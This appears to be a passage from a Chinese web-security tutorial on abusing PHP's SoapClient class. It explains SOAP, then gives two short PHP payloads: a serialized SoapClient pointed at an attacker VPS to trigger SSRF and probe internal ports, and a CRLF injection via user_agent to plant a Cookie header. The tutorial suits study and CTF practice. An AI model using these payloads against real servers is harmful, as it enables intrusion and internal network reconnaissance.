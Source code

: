 - **第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。**
- **第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，**
  **则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，**
  **而uri 是SOAP服务的目标命名空间**

1.  什么是soap  

**SOAP 是基于 XML 的简易协议，是用在分散或分布的环境中交换信息的简单的协议，可使应用程序在 HTTP 之上进行信息交换**
**SOAP是webService三要素（SOAP、WSDL、UDDI）之一：WSDL 用来描述如何访问具体的接口， UDDI用来管理，分发，查询webService ，SOAP（简单对象访问协议）是连接或Web服务或客户端和Web服务之间的接口。**
**其采用HTTP作为底层通讯协议，XML作为数据传送的格式。**

#### 利用姿势一：SSRF

1.  我们构造一个利用payload，第一个参数为NULL，第二个参数的location设置为vps地址  

```php
<?php
$a = new SoapClient(null, array(
'location' => 'http://xx.xxx.xxx.xx:2333', 
'uri' =>'uri',
'user_agent'=>'111111'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```

监听vps的2333端口，如下图所示成功触发SSRF，vps收到了请求信息，且可以看到SOAPAction和user_agent都可控

![img](assets/202304161617186.png) **当使用此内置类(即soap协议)请求存在服务的端口时，会立即报错，而去访问不存在服务(未占用)的端口时，会等待一段时间报错，可以以此进行内网资产的探测。**  

#### 利用姿势二、 会话持久化（配合CRLF漏洞）

```php
<?php
$a = new SoapClient(null, array(
    'location' => 'http://47.102.146.95:2333',
    'uri' =>'uri',
    'user_agent'=>"111111\r\nCookie: PHPSESSION=dasdasd564d6as4d6a"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```
